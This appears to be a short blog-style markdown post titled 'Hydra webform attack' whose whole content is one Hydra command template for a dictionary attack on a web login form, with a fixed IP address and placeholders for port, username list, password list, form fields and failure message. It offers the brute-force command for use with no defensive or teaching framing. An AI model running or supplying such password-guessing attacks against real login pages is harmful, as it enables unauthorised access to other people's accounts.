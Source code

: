 ```yaml
---
layout: post
title:  Hydra webform attack
categories: [HTML,Code]
---
```


#This is a code snippet for a dictionary attack on a webform

```
hydra 99.0.4.3 -s <PORT> -l <LOGIN/LOGINS LIST> -P <PASSWORD/PASSWORD LIST>  http-post-form "<form url>:username=^USER^&password=^PASS^&submit=Submit:<fail message>"
```
